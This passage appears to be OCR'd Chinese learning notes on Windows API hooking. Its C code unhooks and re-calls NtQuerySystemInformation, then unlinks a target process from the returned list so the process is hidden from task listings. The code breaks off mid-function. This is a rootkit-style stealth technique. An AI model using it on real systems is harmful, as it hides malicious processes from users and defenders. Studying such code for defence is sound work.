 ```c
BOOL unhook_by_code(CHAR*szDllName, CHAR* szFuncName)
{
    FARPROC pFunc;
    DWORD dwOldProtect;
    PBYTE pByte;

    pFunc = GetProcAddress(GetModuleHandleA(szDllName), szFuncName);
    pByte = (PBYTE)pFunc;

    if (pByte[0] != 0x48)//没被hook
        return FALSE;

    VirtualProtect((LPVOID)pFunc, 12, PAGE_EXECUTE_READWRITE, &dwOldProtect);
    memcpy(pFunc, g_OldAPI, 12);
    VirtualProtect((LPVOID)pFunc, 12, dwOldProtect, &dwOldProtect);

    return TRUE;
}
```

其实就是还原罢了

## my_NtQuerySystemInformation

```c
NTSTATUS WINAPI my_NtQuerySystemInformation(
    SYSTEM_INFORMATION_CLASS arg_SystemInformationClass,
    PVOID arg_SystemInformation,
    ULONG arg_SystemInformationLength,
    PULONG arg_ReturnLength
)
{
    NTSTATUS status;
    FARPROC pFunc;
    PSYSTEM_PROCESS_INFORMATION lp_LinkCur, lp_Link_Pre = 0;
    //脱钩,因为后面我们要调用真正的NtQuerySystemInformatio.. 否则无法正常调用

    unhook_by_code(szNtdll, szNtQuerySystemInformatio);

    pFunc = GetProcAddress(GetModuleHandleA(szNtdll), szNtQuerySystemInformatio);
    status = ((type_NtQuerySystemInformation)pFunc)(arg_SystemInformationClass, arg_SystemInformation, arg_SystemInformationLength, arg_ReturnLength);
    //先实际上调用一遍 原始的NtQuerySystemInformation

    if (status != 0)
    {
        goto __NTQUERYSYSTEMINFORMATION_END;//这个分支不太明白
    }
    //printf("%d %d\n", arg_SystemInformationClass, SystemProcessInformation);
    if (arg_SystemInformationClass == SystemProcessInformation)
    {

        lp_LinkCur = (PSYSTEM_PROCESS_INFORMATION)arg_SystemInformation;//为什么要自己去定义呢

        while (TRUE)
        {
            //删除链表中间节点的操作
            //头节点排外,而且我们也无法删除头节点
            if (lp_LinkCur->ImageName.Buffer!= NULL)
            {
                if (!_wcsicmp(lp_LinkCur->ImageName.Buffer, g_szTargetName))//只能是W版本
                {
                    if (lp_LinkCur->NextEntryOffset == 0)
```